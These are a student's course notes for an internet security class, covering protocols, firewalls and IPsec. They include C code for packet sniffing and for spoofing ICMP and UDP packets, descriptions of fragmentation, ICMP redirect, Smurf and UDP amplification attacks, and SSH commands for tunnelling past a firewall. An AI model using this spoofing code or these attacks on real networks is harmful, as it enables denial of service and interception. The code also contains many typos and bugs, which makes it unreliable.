





# CSE 644 Internet Security

**cse-644-internet-security**

# Week 1 Introduction to Internet Security

## 1.5 Packet Flow Over the Internet

## 1.8 IP Address

*classful scheme*
32-bit ip address $2^{32}$

- Class A
  - $2^{24}$
- Class B
  - $2^{16}$
  - 128.230.0.0/**16**-netid
  - 128.230.0.0/**14**
- Class C
  - $2^8$

Routing is based on netid
Net mask to identify where the boundary is from netid to hostid

IPv6 and NAT (netword adjust translation)

## 1.9 Data link layer ethernet

payload Hardware addreess (MAC) burned into the NIC (permanent address)

## 1.10 ARP Protocol
- Address Resolution Protocol

IP $\Leftarrow$ $\Rightarrow$ Mac


Names->DNS->IP

**Broadcast** $\Rightarrow$ **Unicast**

ARP Cache Poisoning

## Live Session
Do not follow due dates with syllabus.

Collaborate with others on slack

To spoof, put victim pc to sleep through DOS attack
Once the victim is asleep, force the address to 

# Week 2 Sniffing and Spoofing Packets

## 2.2 Sniffing and Spoofing
## 2.3 Packet Sniffing

- promiscuous mode 
  - NIC
- wifi (uses channels)
  - monitor mode
  - use different channels to communicate
    - if you don't listen the right channel, you won't hear anything

### how to snif

- wireshark
#### diy

- turn on promiscuous mode
- socket: raw socket

``` C
//Creation of the socket
sock_fd = socket(PF_PACKET,SOCK_RAW,htons(ETH_P_ALL));
//setting up the device into promiscuous mode and binding the socket to the device
struct packet_mreq mr;

mr.mr_type = PACKET_MR_PROMISC;
setsockopt(sock_fd,SOL_PACKET,PACKET_ADD_MEMBERSHIP,&mr,sizeof(mr));

//setup the BPF packet filter

setsockopt(sock_fd, SOL_SOCKET,SO_ATTACH_FILTER, &bpfcode, sizeof(bpfcode));

//capturing data from the socket

while(1){
  recvfrom(soc_fd,buffer,65536,0,&saddr,&saddr_size);
}
```

#### capture packets using PCAP API

```C
int main(){
  pcap_t *handle;
  char errbuf[PCAP_ERRBUF_SIZE];
  struct bpf_program fp;
  //char filter_exp[]="port 23";
  char filter_exp="";
  bpf_u_int32 net;

  //open live pcap session on nic with name eth0
  handle = pcap_open_live("eth18",BUFSIZ,1,1000,errbuf);

  //compile filter_exp into BP psuedo-code
  pcap_compile(handle, &fp, filter_exp,0,net);

  pcap_setfilter(handle,&fp); //setup BPF code on the socket
  pcap_loop(handle,-1,got_packet,NULL); // capture packets -- SEE BELOW FOR got_packet
  pcap_close(handle); //close the handle
  return 0;
}
```

#### get a packet and process it

```C
void got_packet(u_char *args,const struct pcap_pkthdr *header, const u_char *packet){
  struct ethheader *eth = (struct ethheader *)packet;
  if(eth->header_type !=ntohs(0x0800)) return;//not an ip packet

  struct ipheader* ip=(struct ipheader*)(packet + SIZE_ETHERNET);
  int ip_header_len = ip->iph_ihl*4;

  printf("----------------------"\n);
  // print souce and destination ip address
  printf("    From: %s\n",inet_ntoa(ip->iph_sourceip));
  printf("      To: %s\n",inet_ntoa(ip->iph_sourceip));

  // determine protocol
  if(ip->iph_protocol == IPPROTO_ICMP){
    printf("    Protocol: ICMP\n");
    spoof_icmp_reply(ip);
  }
}

```

## 2.4 Packet Spoofing


#### packet sending

```C
int main()
{
  // create socket
  int sockfd = socket(AF_INET,SOCK_DGRAM,0);

  //set the destination information
  struct sockaddr_in dest;
  memset(&dest, 0, sizeof(struct sockaddr_in));
  dest.sin_family = AF_INET;
  dest.sin_addr.s_addr = inet_addr("10.0.2.5");
  dest.sin_port = htons(9090);

  // send data
  char *buffer = "Hello Server!\n";
  sendto(sockfd, buffer, strlen(buffer),0,(struct sockaddr *)&dest,sizeof(dest));
  close (sockfd);
  return 0;
}
```

- system uses normal socket, provides sender ip and udp addresses
- use raw packet to spoof

```C
void send_raw_ip_packet(struct ipheader* ip){
  struct sockaddr_in dest_info;
  int enable = 1;
  
  // create a raw network socket and set its options
  int sock = socket(AF_INET,SOCK_RAW,IPPROTO_RAW);
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL,&enable, sizeof(enable));

  // provide needed information about destination
  dest_info.sin_family = AF_INET;
  dest_info.sin_addr = ip->iph_destip;

  // send the packet out
  printf("sending spoofed IP packet... \n");
  sendto(sock, ip, ntohs(ip->iph_len), 0, (struct sockaddr *)&dest_info,sizeof(dest_info));
  close(sock);
}
```

## 2.5 Constructing Raw Packets


```C
// IP Header
struct ipheader{
  unsigned char       iph_ihl:4, iph_ver:4; //IP header length and version
  unsigned char       iph_tos; //type of service
  unsigned short int  iph_len; // ip packet length both (data and header)
  unsigned short int  iph_indent; //identification
  unsigned short int  iph_flag:3,iph_offset:13; //flags and fragmentation offset
  unsigned char       iph_ttl; //time to leave
  unsigned char       iph_protocol; // type of upper-level protocol
  unsigned short int  iph_chksum; // ip datagram checksum
  struct in_addr      iph_sourceip; // ip source address (in network byte order)
  struct in_addr      iph_destip;   //ip destination address (in network byte order)
}

char buffer[LENGTH];
struct ipheader *ip = (struct ipheader*) buffer;
struct udpheader *udp = (struct udpheader*) (buffer + sizeof(struct ipheader));
char *data = buffer + sizeof(struct ipheader) + sizeof(stuct udpheader);
```

## 2.6 Spoofing Packets

### Spoofing ICMP Packet
```C
/*********************
Spoof an ICMP echo request using an arbitrary source IP address
*********************/

int main(){
  char buffer[PACKET_LEN];
  
  memset(buffer, 0, PACKET_LEN);

  /**************************
  Step 1: fill in the ICMP header.
  **************************/
  struct icmpheader *icmp=(struct icmpheader *)(buffer + siezof(struct ipheader));
  icmp->icmp_type=8; //ICMP type: 8 is request, 0 is reply

  // Calculate the checksum for integrity
  icmp->icmp_chksum = 0;
  icmp->icmp_chksum = in_chksum((unsigned short *)icmp, sizeof(struct icmpheader));

  /*************************
  Step 2: fill in the IP header
  *************************/
  struct ipheader *ip = (struct ipheader *) buffer;
  ip->iph_ver = 4;
  ip->iph_ihl = 5;
  ip->iph_ttl = 20;
  ip->iph_sourceip.s_addr = inet_addr(SRC_IP);
  ip->iph_destip.s_addr = inet_addr(DEST_IP);
  ip->iph_protocol = IPPROTO_ICMP; // the value is 1, representing ICMP
  ip->iph_len = htons(sizeof(struct ipheader)+sizeof(struct icmpheader));

  // no need to set the following fields, as they will be set the byt he system
  // ip->iph_chksum = ...

  /************************
  Step 3: Finally, send the spoofed packet
  ************************/
  send_raw_ip_packet (ip);

}
```

### Spoofing UDP Packet
```C
int main(){
  char buffer[PACKET_LEN];
  memset(buffer, 0, PACKET_LEN);
  struct ipheader *ip = (struct ipheader *) buffer;
  struct udpheader *udp = (struct udpheader *)(buffer + sizeof(struct ipheader));

  /*************************************
  Step 1: Fill in the UDP data field
  *************************************/
  char *data = buffer + sizeof(struct ipheader)+sizeof(struct udpheader);
  const char *msg = "hello udp\n";
  int data_len = strlen(msg);
  strncpy(data, msg, data_len);

  /*************************************
  Step 2: Fill in the UDP header
  *************************************/
  udp->udp_sport = htons(SRC_PORT);
  udp->udp_dport = htons(DEST_PORT);
  udp->udp_ulen = htons(sizeof(struct udpheader) + data_len);
  upd->upd_sum = 0; //many OSes ignore this field, so we will not calculate it.
}

```

## 2.7 Sniffing and Spoofing: Code and Examples

> **snoofing** *sniffing and spoofing*

### Snififng the ICMP requeset


[get a packet and process it](#get-a-packet-and-process-it)
```C
got_packet(...); //see above (get a packet and process it)

/****************************************
given a captured ICMP echo request packet, construct a spoofed ICMP
echo reply, which includes IP + ICMP (there is no data)
****************************************/
void spoof_icmp_reply(struct ipheader* ip){
  int ip_header_len = ip->iph_ipl * 4;
  const char buffer[BUFSIZE];

  struct icmpheader* icmp = (struct icmpheader *)((u_char *)ip + ip_header_len);
  if(icmp->icmp_type!=8) {//only process icmp recho request
    printf("not an echo request\n");
    return;
  }

  // make a copy from original packet to buffer (faked packet)
  memset((char*)buffer,0,BUFSIZE);
  memset((char*)buffer,ip,ntohs(ip->iph_len));
  struct ipheader * newip = (struct ipheader *) buffer;
  struct icmpheader * newicmp = (struct icmpheader *) ((u_char *)buffer + ip_header_len);

  // construct IP: sqap src and dest in faked ICMP packet
  newip->iph_sourceip = ip->iph_destip;
  newip->iph_destip = ip->source_ip;
  newip->iph_ttl = 20;
  newip->iphprotocol = IPPROTO_ICMP;

  // fill in all the needed ICMP header information
  // ICMP Type: 8 is request, 0 is reply
  newicmp->icmp_type = 0;

  // Calculate the checksum for integrity. ICMP checksum includes the data
  newicmp->icmp_chksum = 0; // set it to zero first
  newicmp->icmp_chksum = in_chksum((unsigned short *)newicmp,ntohs(ip->iph_len) - ip_header_len);

  send_raw_ip_packet(newip);
}
```

Three steps to the *snoofing* stack
1. Sniffing
2. Spoofing Copy info/construct packet
3. Send spoofed packet

## 2.8 Byte Order

When A sends integer to B
Say integer is `0x87654321`

order matters for different computer architectures. So we have to speficy the order of bytes `little endian` or `big endian` using the **network order** and **host order**

> **h** *host*

>**n** *network*

|macro|description|functionality|
|-|-|-|
|`htons()`|Host to Network Short|used to convert unsigned short integer from host byte-order to netowrk byte-order|
|`htonl()`|Host to Network Long|used to conver unsigned integer from host byte-order to network byte-order|
|`ntohs()`|Network to Host Short|used to conver unsigned short integer from network byte-order to host byte-order|
|`ntohl()`|Network to Host Long|used to convert unsigend integer from network byte-order to host byte-order|

## 2.9 Summary

- packet sniffing using `pcap library`
- packet spoofing using raw socket
- sniffing and spoofing
- byte order

## Week 3 Live Session

### IP Security
- VPN or SSL for ipsec
- Kerberos
  - Distributed computing authorization mechanism
  - username and password, authentication server, implementation server
- https is http over ssl
- These protocols are formed in different layers of the protocol stack
  - ipsec, ip layer
  - we do not see how the packets are formed when 

#### General IP security mechanism
- provides
  - authetication
  - confidentiality
  - key management
- VPN applicable to use over LANs, across public and private WANs, and for the internet
- need authentication, encryption in IPv4 & IPv6

TCP/IP was not developed with security features!

#### Benefits of IPSec
- in a firewall/router provides strong security to all traffic crossing the perimeter
- in a firewall/router is a resistant to bypass
- is below transport layer, hence **transparent to applications**
- can be **transparent to end users**
- can provide security for individual users
- secures reouting architecture

NAT (networ address transport) protocol

#### IP Security Architecture (very important)
If you are trying to modify IPSec, you need to work with these consortiums.
- specification is quite complex, with groups:
  - Architecture
    - RFC4301 *Security Architecture for Internet Protocol*
  - Authentication Header (AH)
    - RFC4302 *IP Authentication Header*
  - Encapsulating Security Payload (ESP)
    - RFC4303 *IP Encapsulation Security Payload (ESP)
  - Internet Key Exchange (IKE)
    - RFC4306 *Internet Key Exchange (IKEv2) Protocol*
  - Cryptographic Algorithms
  - Other

#### IPSec Services
- Access Control
- Connectionless integrity
- Data origin authentication
- Rejection of replayed packets
  - a form of partial sequence integrity
- Confidentiality (encryption)
- Limited traffic flow confidentiality

#### Transport and Tunnel Modes
- Transport Mode
  - To encrypt & optionally authenticate IP data
  - can do traffic analysis but is efficient
  - good for ESP host to host traffic
- Tunnel Mode
  - encrypts entire IP packet
  - add new header for next hop
  - no routers on way can examine inner IP header
  - good for VPNs, gateway to gateway security

Tunnel mode is good for VPN, transport mode is good for network traffic analysis

#### Security Associations
- a one-way relationship between sender and receiver that affords security for traffic flow
- defined by 3 parameters:
  - Security Parameters Index (SPI)
  - IP destination address
  - Security Protocol Identifier
- has a number of other parameters


# Week 3 IP Protocol

## 3.2 IP Protocol

IP Header and Protocol (32-bits)
- 4-bit version (4)
- 4-bit header length
  - multiply by 4
- 8-bit Type of service
  - TOS
  -Router uses a priority queue, determined by TOS?
    - doesn't work well for the internet.
    - works well for a centralized company or organization
- 16-bit total length
  - header+payload 2^16


**Fragmentation**
- 16-bit identification (ID)
- 3-bit flags
- 13-bit fragmentations offset

**TTL**
- 8-bit TTL (time to live)
  - number of router hops
- 8-bit protocol
  - TCP,UDP,something else
- 16-bit checksum

**32-bit source ip address**
**32-bit destination ip address**

### How Traceroute Works

A$\rightarrow$B number of hops? Use TTL

1. send first packet
   - ttl = 1
   a. first router
      - ttl = 0
      - drop, send message back
2. send second packet
   - ttl = 2
   b. gets to second router
      - ttl = 0
      - drop, send message back
3. and so on


## 3.3 IP Fragmentation
- complicated, so attacker finds opourtunity

### IP Fragmentation: Why

$2^{16}=65536$ (64k)

The wire doesn't accomidate a packet of 64k, 1500 limit on frames usually, standard
- MTU: maximum transmit unit
  - depends on the wire

**Sender**
- Each fragmentation of the original packet is turned into separate IP Packets
- Fragments may not take the same route
  - put together at the end

**Receiver**
- put packets into buffer
- if one packet is dropped, the entire packet is dropped

|400|400|400|
|-|-|-|

- whole packet (16-bit ID)
  - packet 1:
    - ID
    - offset: $0/2^3$*
    - bit-flag: 1
  - packet 2:
    - ID
    - offset: $400/2^3$
    - bit-flag: 1
  - packet 3:
    - ID
    - offset: $800/2^3$
    - bit-flag: 0 (last packet)

*divide offset by 2^3 because the total length is 16-bit and the fragmentation offset is 13-bit

**3-bit offset**

0. not used
1. don't fragment
2. more fragments

## 3.4 Attacks on IP Fragmentation

> **protocol** *In information technology, a protocol is the special set of rules that end points in a telecommunication connection use when the communicate. Protocols speci*fy interactions between the communicating entities.*

- Attackers are people who don't follow the rules

**Attacker Strategry**
- do not follow the rule
- create unreal condition

## 3.5 Attacks on IP Fragmentation

### Attack 1: Tie Up Target's Resources

> Can you use a small amount of bandwidth to tie up a target machine's significant amount of resources.

Send a single packet with offset of $2^{16}$ and say it is the last packet, server will allocate 65k. Send many small packets with large offest to tie up resources.

### Attack 2: Create a super-large packet

> Can you create an IP packet that is larget thank 65536 bytes?

### Attack 3: Create Abnormal Situation

> Can you create some abnormal condition using offset and payload size?

Create overlapping packet fragments.

Don't assume that packets comming in order have the right offest.

## 3.6 ICMP Protocol

### ICMP: Internet Control Message Protocol

**Purpose**
- Control message
- Error message

### ICMP Header

|ICMP Type|Type Code|ICMP Checksum|
|-|-|-|

ICMP Echo Request/Reply

|ICMP Type|Type Code|ICMP Checksum|
|-|-|-|
|0 or 8|Code (0)|Checksum|

data: echo reply (type 0) myst return any data sent in echo request

### ICMP Time Exceeded
**Type** must be set to 11
**Code** specifies the reason for the first time exceeded message, including the following:
|Code|Description|
|-|-|
|0|time to live exceeded in transit|
|1|Fragment reassembly time exceeded|

### ICMP Destination Unreachable
|ICMP Type|Type Code|ICMP Checksum|
|-|-|-|
|3|Code|Checksum|
|||

|code|description|
|-|-|
|0|Destination network unreachable|
|1|Destination host unreachable|
|2|Destination protocol unreachable|
|3|Destination port unreachable|
|4|Fragmentation required and DF flag set|
|5|Source route failed|
|6|Destination netwrok unknown|
|7|Destination host unknown|
|8|Source host isolated|
|9|Network administratively prohibited|
|10|Host administratively prohibited|
|11|Network unreachable for TOS|
|12|Host unreachable for TOS|
|13|Communication administrativel prohibited|
|14|Host precedence violation|

## 3.7 Attacks on ICMP

### ICMP Redirect and Attacks

#### protocol
Two routers on network
host sends out information that goes through r1 or r2.
Host has a routing table, help host decide which direction to go
r1 and r2 both have routing tables
if r1 has 4 hops compared to 5 hops for r2, host will choose r1.
if now r2 is shorter, 3 hops, then r2 will send ICMP redirect to host and update the routing table.

#### attacker
redirect host to x
x could be a malicious router, launch a man in the middle attacker
x could be a black hole, machine that doesn't exist

### Smurf Attack
**Doesn't work anymore*

Magnify the power.
Directed broadcast

Send out a packet using the direct boradcast IP. 128.230.5.0/24

128.230.5.255 (directed broadcast), everyone will see it, directed broadcast will send N packets to everyone, but these N packets will be returned to you, attacking yourself.

If we spoof the vicitim's IP, send to broadcast, N packets will be returned to victim.

**Why doesn't this work anymore?**

## 3.8 Routing

**Routing:**
1. routing tables
2. routing decision

|To reach network|Route to this address|
|-|-|
|20.0.0.0/8|Deliver Direct|
|30.0.0.0/8|Deliver Direct|
|10.0.0.0/8|20.0.0.5|
|40.0.0.0/8|30.0.0.7|


## 3.9 Routing Table

line 1 is default route, destination 0.0.0.0
router is connected to 0.0.0.0 and that is the gateway IP address

### Change the routing table

`$ sudo route add -net 128.230.0.0/16 gw 10.0.2.1`

### How do routers and host get routing information?

*External Routing* (BGP`)
Every network has a representative and figure out which destinations you can reach.
They will talk to all of the other networks (not directly)

*Interior Routing*
Then routing protocols happen inside the network

## 3.10 Summary

- IP Protocol
- IP Fragmentation
- Attacks on IP fragmentation
- ICMP protocol
- Attacks on ICMP protocol
- Routing

## Live Session

### Firewalls
### Introduction
- seen evolution of information systems
- now everyone wants to be on the internet
  - and to interconnect networks

### What is a Firewall?
- a choke point of control and monitoring
- interconnects networks with different trust
- impose restrictions on network services
  - only authorized traffic is allowed
- auditing and controlling access
  - can implement alarms for abnormal behavior
- provide NAT (network address translation) & usage monitoring
- implement VPNs using IPsec
- must be immune to penetration

### Firewall Limitations
- cannot protect from attacks bypassing it
  - eg sneaker net, utility modems, trusted organizations, trusted services (SSL SSH)
- cannot protect against internal threats
- connat protect against internal trheats
- cannot protect against acces via WLAN
  - if improperly secured against external use
- Cannot protect against malware imported via laptop, PDS, storage infected outside

### Firewall - packet filters
- simplest firewall component
- foundation of any firewall system
- examine each IP packet (no context) and permit or deny according to rules
- hence restrict access to services (ports)

### Attacks on packet filter
- ip address spoofing
- source routing attacks
- tiny fragment attacks

### Stateful packet filters
in the transport layer
- traditional packet filters do not examine higher layer context
  - ie matching return packets with outgoing flow
- stateful packet filters address this need
- they examine each IP packet in context
  - keep track of client-server sessions
  - check each packet validity belongs to one
- hence are better able to detect bogus packet out of context
- may even inspect limited application data
  - what data?

### Application level gateway (proxy)
application lyaer
- have application specific gateway/proxy
- has full access to protocol
  - user requests srevice from proxy
  - proxy validates request as legal
  - then actions request and returns packet

### Firewalls - circuit level gateway
- realys two TCP connections
- imposes security by limiting which such connections are allowed

### Bastion Host
- highly secure host system
  - web servers should be like this
  - can open up entire network to attacks if not careful.
- runs circuit/application level gateways

### Host-based firewalls
- often used on servers
- can tailor filtering rules to host environemtn

### Personal Firewalls


# Week 4 Firewall

## 4.2 Firewall

- write a firewall
- use a firewall
- attackers bypass firewalls

## 4.2 Overview of How Firewall Works
- firewall inspects packets
- based on policy
  - accept
  - deny
  - modify (redirect?)
- looks at packets in both diretions
  - ingress (coming into network)
  - egress (leaving network)

### types of firewall
#### look at ip layer of packet
- packet filter (stateless)
- stateful firewall
  - look at multiple packets together
  - let packet go out if it belongs to existing connection
  - uses more resources
#### look at data layer of packet
- application firewall
  - (web proxy)
## 4.3 Overview of how Firewall Works
- lots of diagrams

## 4.4 Linux Firewall Implementation
- nees to understand how packets flow into the host

- packet flows into system's NIC
- NIC goes to router, two options
  - not for me, so route to another NIC
    - if computer is not a router, drop the packet
    - can set up computer to forward packets
  - packet is for me, send to local process
    - enter system
    - need to find a place to put the firewall and filter packets
      1. before routing
      2. after routing, before send to local/process
      3. after local process, before routing
      4. after local routing before NIC
    - this is done inside kernel
      1. change kernel
         - have to recompile the kernel
      2. Loadable kernel module
         - use prebuilt kernel
         - write the kernel in the user space
      - have to have a place to put the code
      - _net filter_
        - creates hooks in kernel.
        - did anyone connect to this hook?
          - if so, filter
          - else, do nothing
### Netfilter: Implement a simple firewall

#### Hooking filter code to one of the netfilter hooks

- filter out telnet (port 23)
  - if 23 drop packet
```C
static struct nf_hook_ops telnetFilterHook;

int setUpFilter(void){
  printk(KERN_INFO "Regisering a telnet filter.\n");
  telnetFilterHook.hook = telnetFilter; // defined in next code section
  telnetFilterHook.hooknum = NF_INET_POST_ROUTING;
  telnetFilterHook.pf = PF_INET;
  telnetFilterHook.priority = NF_IP_PRI_FIRST;
  nf_register_hook(&telnetFilterHook);
  return 0;
}

void removeFilter(void){
  printk(KERN_INFO "Telnet filter is being removed.\n");
  nf_unregister_hook(&telnetFilterHook);
}

module_init(setUpFilter);
module_exit(removeFilter);
```

#### implementation of the filter

```C
unsigned int telnetFilter(unsigned int hooknum, struct sk_buff *skb, const struct net_device *in, const struct net_device *out, int (*okfn)(struct sk_buff *)){
  struct iphdr = *iph;
  struct tcphdr = *tcph;

  iph = ip_hdr(skb);
  tcph = (void *)iph+iph->ihl*4;

  if(iph->protocol == IPPROTO_TCP && tcph->dest == htons(23)) { // if packet is TCP && port 23
    printk(KERN_INFO "Dropping telnet packet to %d.%d.%d.%d\n",
    ((unsigned char *)&iph->daddr)[0],
    ((unsigned char *)&iph->daddr)[1],
    ((unsigned char *)&iph->daddr)[2],
    ((unsigned char *)&iph->daddr)[3]);
    return NF_DROP;
  }else{
    return NF_ACCEPT;
  }
}
```

## 4.5 Exercise: Iptables and UFW

### iptables and uncomplicated firewall (UFW)

- ip tables
  1. firewall implementation
  2. user level program
     - confgiure what is inside kernel
  - contains the rules
  - use netfilter
- several tables
  - filter
    - filtering
  - NAT table
    - network address translation
    - modification of packet src/dest addr
  - magle
    - modify many things in packet
- check connectioin and implement stateful policy
  - powerful

### using UFS to set up firewall rules
- front end of IP tables

`ufw <action> <direction> <service>`
...
`ufw (allow | deny) (in | out) from (src) to (dest) port (port number)`
1. > Prevent client machine from telnetting to any external machine
   - `sudo ufw deny out from ${CLIENT_IP} to any port 23`
2. > Prevent client machine from access a website
   - `sudo ufw deny out from ${CLIENT_IP} to ${DEST_IP} port 80`

## 4.6 Exercise: Bypassing Firewall Using SSH Tunnel
- set up a counter measure
- firewalls can be too restrictive so people want to bypass the firewall

### Bypassing Firewalls
- inside network, we can connect to server
- firewall prevents outside from connecting to server
- if I'm travelling, I cannot connect to server

- we want to set up a *proxy* inside the network, and we can create a tunnle to the proxy
  - the tunnel will be encrypted

- tunnel
  1. VPN
     - IP layer
  2. SSH
     - Transport layer
  3. HTTP 
     - Application layer

### SSH Tunnel: Static Port Forwarding
- ingress
  - Client (application) (:8000) tunnels to Proxy(:22), bypassing firewall
  - Proxy (:22) makes request to server (:23) inside network
  - telnet localhost 8000
  `ssh -L 8000:server:23 proxy`
- egress
  `ssh -L 23:client:8000 proxy`

### SSH Tunnel: Dynamic Port Forwarding
`ssh -D 9000 -c proxy`


## 4.7 Web Proxy

### Web Proxy: Application Firewall
- proxy server
  - drop packet
  - redirect

### Web Proxy: Squid
- Firewall
- URL rewrite and redirect
- web caching

```perl
#!/usr/bin/perl -w

use strict;
use warnings;

select STDOUT; $| = 1;

while(<>){
  my @parts = split;
  my $url = $parts[0];

  if($url =~ /\.(jpg|bmp|gif|jpeg)/){
    print "http://mars.syr.edu/html/seed/stopsign.png\n";
  }else{
    print "\n";
  }
}

```

## 4.8 Summary

- concepts of firewall
- firewall implementation (simple packet filter)
- netfilter and iptables
- evading firewall using SSH tunnel
- Web proxy firewall

## 4.9 UDP and Attacks
## UDP Overview

### Transport Layer and Port Numbers
- We need IP address to send packets from A to B.
- But which application on the server needs the packet?
  - this is the port number

#### Port Number
- Transport Layer Address

Layers
1. 
2. Ethernet Address
3. Network Layer (IP Address)
4. Transport Layer (port number)

Port Numbers
- 16 bit, $2^{16}$, 0-65535
- port conventions
  - 0-1023
    - well known applcations (root privilege)
      - telnet :23
      - ssh :22
      - http :80
      - https :44
  - 1024-49151
    - register port
  - 49152-65535
    - dynamic & private ports
    - when we send a packet, the OS assigns a return/src port address.
  
## 4.11 UDP Header and Protocol
- Transport Layer
  - TCP
    - complicated header
    - no packet loss
    - organize out of order packets
  - UDP
    - light layer on top of the IP layer
      - Source Port Number
      - Destination Port Number
      - (UDP length; standard on all layers)
      - (UDP checksum; standard on all layers)
    - Best effort delivery
      - Packet Loss
    - IP Doesn't care which order the packets come in. 
    - UDP only adds port number, same responsibilities as IP

### UDP Client/Server Programs
#### UDP client
a. create socket
   - `sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);`
   - `SOCK_DGRAM` data gram
b. send data
   - `sendto(sockfd, buffer,...,struct sockaddr *)&servaddr, ...);`
c. receive data
   - `recvfrom(sockfd, rec_buffer, ..., &from_addr, ...);`

#### UDP server
a. create socket
   - `sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)`
b. bind the socket to a port
   - `bind(sockfd, &si_me, ...)`
c. receive data
   - `recvfrom(sockfd, rec_buffer, ..., &from_addr, ...)`

## 4.12 Exercise: UDP Applications

- DNS protocol
- video/audio streaming
  - realtime
    - UDP
    - packet loss doesn't matter too much
  - recorded
    - tcp
- real-time applications

UDP
- light weight
- packet loss


### Question

> UDP does not preserve order and does not handle packet loss. If an application does care about packet loss and order, can it still use UDP?
- Yes
  - if packet loss occurs, send request to client to resend dropped packets

## 4.13 Attacks on UDP

### Causing Great Damange Using a Grenade
- attack wants to target a powerful server
- minimize cost

> How to magnify power?
  - grenade
  - want to cause a lot damange with a small tool
  1. Turn one grenade into many
     - SMURF attack using ICMP
     - 
  2. Turn one grenade into missile
  3. Achilles Heel
     - find the weak point

#### UDP attack
- Attacker sends a small packet to a server that returns a large packet
- Attacker uses the victim's IP as the src IP instead of their own.

### Target Achilles Heel: UDP Ping-Pong
- attacker `echo :7`
- victim replies to src ip
- attacker sets src ip to dest ip, and sets src and dest port to 7. This will infinitely reply lol.

## 4.14 Summary
- Transport layer
- port number
 - UDP protocol and header
 - UDP applications
 - Attacking strategy: magnify power, ping-pong
 - Attack on or using UDP


# Week 5 Live Session
### TCP IP Vulnerabilites
TCP/IP Vulnerabilities
- transmissioncontrol protocol/internet protocol
- unauthorized users may launch a denial-of-service attack on the destination computer

### Data Encapsulation
- Data encapsulation
  - enclosing higher-level protocol information in lower level protocol information
  - also called data hiding
  - implementation details of a class are hidden from user

### IP Internet Protocol
- Internet Protocol
  - transmits data from source to final destination
  - network protocol operating at layer 3 of the OSI model
    - and layer 2or 3 of the TCP/IP model
